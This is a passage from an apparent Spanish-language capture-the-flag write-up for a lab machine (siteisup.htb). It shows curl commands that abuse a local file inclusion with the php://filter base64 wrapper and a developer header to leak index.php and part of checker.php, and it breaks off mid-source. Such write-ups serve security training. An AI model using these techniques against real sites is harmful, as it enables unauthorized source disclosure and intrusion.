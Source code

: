 Entre todos los archivos este llama la atención ya que es la página principal (index.php) y a primera vista puede ser vulnerable a **Local File Inclusion**. Lamentablemente contiene las restricciones adecuadas, pero igualmente logramos enumerar archivos `.php` con su respectivo código de funcionalidad:

> Usando el wrapper `php://filter`

```console
❯ curl -s 'http://dev.siteisup.htb/?page=php://filter/convert.base64-encode/resource=index' -H 'Special-Dev: only4dev' | awk 'NR==4' | base64 -d
<b>This is only for developers</b>
<br>
<a href="?page=admin">Admin Panel</a>
<?php
        define("DIRECTACCESS",false);
        $page=$_GET['page'];
        if($page && !preg_match("/bin|usr|home|var|etc/i",$page)){
                include($_GET['page'] . ".php");
        }else{
                include("checker.php");
        }
?>
```

Observamos que al no especificar por **GET** el parámetro **page**, nos incluye el código del archivo `checker.php`:

```console
❯ curl -s 'http://dev.siteisup.htb/?page=php://filter/convert.base64-encode/resource=checker' -H 'Special-Dev: only4dev' | awk 'NR==4' | base64 -d
<?php
if(DIRECTACCESS){
	die("Access Denied");
}
?>
<!DOCTYPE html>
<html>

  <head>
    <meta charset='utf-8' />
    <meta http-equiv="X-UA-Compatible" content="chrome=1" />
    <link rel="stylesheet" type="text/css" media="screen" href="stylesheet.css">
    <title>Is my Website up ? (beta version)</title>
  </head>

  <body>

    <div id="header_wrap" class="outer">
        <header class="inner">
          <h1 id="project_title">Welcome,<br> Is My Website UP ?</h1>
          <h2 id="project_tagline">In this version you are able to scan a list of websites !</h2>
        </header>
    </div>

    <div id="main_content_wrap" class="outer">
      <section id="main_content" class="inner">
        <form method="post" enctype="multipart/form-data">
			    <label>List of websites to check:</label><br><br>
				<input type="file" name="file" size="50">
				<input name="check" type="submit" value="Check">
		</form>

<?php

function isitup($url){
	$ch=curl_init();
```